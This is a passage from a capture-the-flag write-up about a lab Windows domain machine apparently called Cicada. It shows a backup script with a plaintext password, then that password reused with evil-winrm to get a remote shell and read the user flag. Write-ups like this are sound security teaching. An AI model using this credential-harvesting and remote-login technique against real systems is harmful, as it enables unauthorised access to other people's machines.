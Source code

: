 ```bash
cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

More plaintext credentials. This really is like a real active directory environment (I'm half serious here). To connect to windows machines from linux the standard tool is evil-winrm which adds additional functionality past a basic shell, which includes downloading files easily.

```bash
evil-winrm -i 10.129.142.175 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> ls
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         9/28/2024   7:53 PM             34 user.txt


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
d96922c9050d2-------------------
```

# Root
